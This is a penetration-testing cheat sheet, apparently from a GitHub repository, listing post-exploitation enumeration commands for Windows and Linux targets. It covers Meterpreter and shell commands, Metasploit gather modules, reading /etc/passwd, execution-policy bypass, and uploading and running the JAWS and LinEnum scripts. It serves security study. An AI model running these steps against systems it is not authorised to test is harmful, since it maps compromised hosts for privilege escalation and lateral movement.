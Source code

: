 # Post Exploitation Enumeration

--------------------------------------------------------------------

## Windows

```
sysinfo
shell
hostname
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn`
```

--------------------------------------------------------------------

> [!NOTE]
> This information is very useful as it provides us with an idea of what specific version of Windows is running on the target and the updates that have been installed on the target system.

> [!NOTE]
> Why is this important? from the perspective of a penetration tester, we are able to use this information to identify whether the specific version of Windows running on the target is vulnerable to any exploits that can allow us to elevate our privileges or perform lateral movement.

--------------------------------------------------------------------

> Some Metasploit Meterpreter Commands / Shell
```
> users and groups:

getuid
getprivs
background
use post/windows/gather/enum_logged_on_users
whoami /priv
net users
net user administrator
net localgroup
net localgroup administrators

> network:

ipconfig
ipconfig /all
route print
netstat -ano

> Services:

ps
pgrep explorer.exe
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST
schtasks /query /fo LIST /v
```

> [!NOTE]
> As shown , the netstat -ano command displays a list of open ports on the target system and their respective state and process ID (PID).

--------------------------------------------------------------------

## Windows JAWS Enum

```
https://github.com/411Hall/JAWS

cd C:\\
mkdir Temp
cd Temp
upload /root/Desktop/jaws-enum.ps1
shell
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename Jaws-Enum.txt
download JAWS-Enum.txt
```

--------------------------------------------------------------------

## Linux

```
getuid
ifconfig
netstat
route
arp
ps
pgrep vsftpd
/bin/bash -i
cd /root
hostname
cat /etc/*issue
cat /etc/*release
uname -a
dpkg -l
env
lscpu
free -h
df -h
lsblk | grep sd

> Users:

whoami
ls -lah /home
cat /etc/passwd
cat /etc/passwd | grep -v /nologin
groups <USER>
groups root
groups
who
w
last
lastlog

> Services:

ps
ps aux
ps aux | grep msfconsole
ps aux | grep root
top
cat /etc/cron*
crontab -l

> Network:

ifconfig
ip -br -c a
ip a
cat /etc/networks
cat /etc/hostname
cat /etc/hosts
cat /etc/resolv.conf
arp -a
```

--------------------------------------------------------------------

## Metasploit Modules

```
use post/windows/gather/enum_logged_on_users
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares
use post/linux/gather/enum_configs
use post/linux/gather/enum_network
use post/linux/gather/enum_system
use post/linux/gather/checkvm
```

--------------------------------------------------------------------

## Auto Enumerate with LinEnum.sh

```
copy code from github linenum

cd /tmp
upload [LinEnum.sh](http://linenum.sh/)
shell
/bin/bash -i
chmod +x [LinEnum.sh](http://linenum.sh/)
./LinEnum.sh
./LinEnum.sh -s -k <keyword> -r <report> -e /tmp/ -t
```

--------------------------------------------------------------------